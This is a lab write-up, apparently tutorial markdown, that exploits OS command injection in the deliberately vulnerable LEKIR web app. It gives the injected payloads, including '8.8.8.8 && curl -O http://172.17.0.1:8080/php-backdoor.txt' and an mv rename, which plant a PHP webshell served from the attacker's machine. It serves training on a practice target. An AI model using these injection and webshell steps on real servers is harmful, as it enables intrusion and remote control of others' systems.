






# Backdoor Exploiting

In this writeup, we will be demonstrating the use of implementing a backdoor inside the LEKIR vulnerable web app

After running the LEKIR Docker container and accessing it through the browser, navigate to the OS command injection category at Low level

<figure><figcaption>
Figure 1
</figcaption></figure>

<figure><figcaption></figcaption></figure>

## 1st Step: Identfying Vulnerabilities

***

Input any valid IP. Let's try Google's

<figure><figcaption></figcaption></figure>

Seems to work like a normal ping service should

<figure><figcaption></figcaption></figure>

Now we get to the fun part, Payloads. Just try out any one in the list

<figure><figcaption>
Figure 5
</figcaption></figure>

As you can see, we succeded in listing the contents in the current directory using the && operator

<figure><figcaption></figcaption></figure>

## 2nd Step: Exploiting Vulnerabilities

***

Since this web app uses PHP as its backend, we can just exploit it by using a PHP backdoor script. By default the backdoor script is already in our Kali Linux machine, we just need to get it on the vulnerable web app. You can find the script by using the `locate` command in the terminal

<figure><figcaption>
Figure 7
</figcaption></figure>

navigate to the appropriate directory of the script by using `cd /usr/share/webshells/php`

Now what we need to do is host a simple webserver to serve the script which is inside the current directory

We can launch a simple HTTP server using python by entering this command:

`python -m http.server 8008`

To see if the server was launched successfully. Go to the browser and enter 'localhost:8008'. It should show up like this:

<figure><figcaption>
Figure 8
</figcaption></figure>

Now that's done, there are 2 ways we can download / retrieve the backdoor script on the vulnerable web app now that it is on a webserver.

* **wget**

check if wget is installed in the vulnerable system by entering `wget -h`

<figure><figcaption></figcaption></figure>

Looks like wget is not installed, let's move on to the next method

* **curl**

like before, let's check if it is installed

<figure><figcaption></figcaption></figure>

Now we can begin downloading the backdoor script. Before that, go to the terminal where the python webserver is hosted. Copy the url which is the server's address and port. In my case it will look like this.

`http://0.0.0.0:8080/`

Another thing we need to add at the end of the url is the file we want to download. specify the name of the backdoor

`http://0.0.0.0:8080/php-backdoor.php`

Another thing we also need to change is the ip of the url, depending on how you deploy the LEKIR Framework, you need to identify the suitable interfaces to use. '0.0.0.0' means that the webserver is listening on all network interfaces. In my case, i will need to use the Docker interface since I deployed it using Docker

You can check the available interfaces using:

`ip a`

<figure><figcaption>
Figure 11
</figcaption></figure>

The current payload will look like this

<figure><figcaption></figcaption></figure>

Try running the command

<figure><figcaption></figcaption></figure>

If the output looked like this, it means that it did not work. Why?

Because as I have said earlier, PHP is a backend language. When we use curl or wget for that matter to request the file, the webserver will execute the PHP script and return the output such as HTML or JSON rather than the raw PHP source code itself.

What we can do to fix this issue is changing the file type of the script. Let's change it to a .txt file using this command:

`mv php-backdoor.php php-backdoor.txt`

Oh and also, do it in another tab of the terminal and don't `Ctrl + C` the python webserver hahah xD

<figure><figcaption>
Figure 14
</figcaption></figure>

Change the payload

`8.8.8.8 && curl -O http://172.17.0.1:8080/php-backdoor.txt`

The `-O` flag is used to specify the output name of the file when it is downloaded, here I am saving it with its original name

<figure><figcaption></figcaption></figure>

Let's try and see if it worked

<figure><figcaption></figcaption></figure>

It didn't execute the file. Let's verify this by using `ls`

<figure><figcaption>
Figure 17
</figcaption></figure>

Great!! it worked, our backdoor is downloaded. On to the next step.

## 3rd Step: Gaining Access

***

Now that the backdoor script is inside the vulnerable system, we can execute it. But wait...remember that we changed it from a .php file to a .txt file? .txt files are for reading only

We can simply resolve this issue by just changing it back to a .php file in the input field using the `mv` ('Everyone probably knew this ^\_^')

`8.8.8.8 && mv php-backdoor.txt php-backdoor.php`

verify it once again

<figure><figcaption>
Figure 18
</figcaption></figure>

everything is set, now we can finally execute the backdoor. Navigate to the URL and enter the filename of the backdoor in the current directory

<figure><figcaption>
Figure 19
</figcaption></figure>

Run it

<figure><figcaption></figcaption></figure>

What you are seeing is the web-based control panel of the backdoor, allowing you to interact with the server in various ways including command execution, file upload, directory browsing and database query execution

(In other words, the backdoor worked)
